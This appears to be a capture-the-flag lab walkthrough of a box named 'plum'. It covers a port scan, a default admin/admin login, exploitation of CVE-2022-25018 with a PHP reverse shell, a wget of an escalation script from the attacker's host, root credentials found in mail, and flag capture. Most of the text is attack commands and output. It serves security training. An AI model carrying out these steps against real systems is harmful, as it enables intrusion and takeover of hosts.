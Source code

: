 `Running all scans on 192.168.217.28`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

On the bottom of the webpage, there is an Administration link
Weak credentials: admin/admin

Once we login, it shows the version

![[Pasted image 20240222130748.png]]

Google this and check the first result
![[Pasted image 20240222130814.png]]

There is a PDF listed in the references
- [https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf](https://github.com/MoritzHuppert/CVE-2022-25018/blob/main/CVE-2022-25018.pdf)

On the second page it gives the steps to recreate the exploit
![[Pasted image 20240222130918.png]]

Let's do this using Pentest Monkey's PHP reverse shell. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

![[Pasted image 20240222131210.png]]

Paste it at the bottom of the static page after changing the IP address 

Click view page Static 1 on site and it launches the reverse shell

`└─$ nc -nlvp 1234`         
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:1234`
`Ncat: Listening on 0.0.0.0:1234`
`Ncat: Connection from 192.168.217.28:37878.`
`Linux plum 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64 GNU/Linux`
 `12:56:30 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00`
`USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT`
`uid=33(www-data) gid=33(www-data) groups=33(www-data)`
`/bin/sh: 0: can't access tty; job control turned off`
`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

Upload and run LSE.sh
`www-data@plum:/tmp$ wget 192.168.45.222/lse_cve.sh`
`wget 192.168.45.222/lse_cve.sh`
`--2024-02-22 12:57:49--  http://192.168.45.222/lse_cve.sh`
`Connecting to 192.168.45.222:80... connected.`
`HTTP request sent, awaiting response... 200 OK`
`Length: 55098 (54K) [text/x-sh]`
`Saving to: ‘lse_cve.sh’`

`lse_cve.sh          100%[===================>]  53.81K  --.-KB/s    in 0.07s`   

`2024-02-22 12:57:50 (758 KB/s) - ‘lse_cve.sh’ saved [55098/55098]`

`www-data@plum:/tmp$ chmod +x lse_cve.sh`
`chmod +x lse_cve.sh`
`www-data@plum:/tmp$ ./lse_cve.sh -l 1`

We notice our user has mail
`Does 'www-data' have mail?...................................... yes!`
---
`-rw-rw---- 1 www-data mail 4549 Feb 22 12:58 /var/mail/www-data`

Check it with "mail"
`www-data@plum:/tmp$ mail`
`mail`
`"/var/mail/www-data": 3 messages 3 new`
>`N   1 root@localhost     Fri Aug 25 06:31  18/700   URGENT - DDOS ATTACK"`
 `N   2 Mail Delivery Syst Thu Feb 22 12:57  57/1861  Mail delivery failed: ret`
 `N   3 Mail Delivery Syst Thu Feb 22 12:58  57/1852  Mail delivery failed: ret`

Read the message
`? n`
`n`
`Return-path: <root@localhost>`
`Envelope-to: www-data@localhost`
`Delivery-date: Fri, 25 Aug 2023 06:31:47 -0400`
`Received: from root by localhost with local (Exim 4.94.2)`
	`(envelope-from <root@localhost>)`
	`id 1qZU6V-0000El-Pw`
	`for www-data@localhost; Fri, 25 Aug 2023 06:31:47 -0400`
`To: www-data@localhost`
`From: root@localhost`
`Subject: URGENT - DDOS ATTACK"`
`Reply-to: root@localhost`
`Message-Id: <E1qZU6V-0000El-Pw@localhost>`
`Date: Fri, 25 Aug 2023 06:31:47 -0400`

`We are under attack. We've been targeted by an extremely complicated and sophisicated DDOS attack. I trust your skills. Please save us from this. Here are the credentials for the root user:`  
`root:6s8kaZZNaZZYBMfh2YEW`
`Thanks,`
`Administrator`

SSH in with these root credentials and get the flags

`└─$ ssh root@192.168.217.28`                              
`Warning: Permanently added '192.168.217.28' (ED25519) to the list of known hosts.`
`root@192.168.217.28's password:` 
`Linux plum 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64`

`The programs included with the Debian GNU/Linux system are free software;`
`the exact distribution terms for each program are described in the`
`individual files in /usr/share/doc/*/copyright.`

`Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent`
`permitted by applicable law.`
`Last login: Fri Aug 25 06:28:24 2023 from 10.9.1.19`
`root@plum:~# ls`
`email7.txt  proof.txt  proof.xt`
`root@plum:~# cat proof.txt`
`f3f3198c6eebe8933207bdc8c1caffa5`
`root@plum:~# find / -name local.txt 2>/dev/null`
`/var/www/local.txt`
`root@plum:~# cat /var/www/local.txt`
`a20e327bfd023efd0d01877a51011d3b`
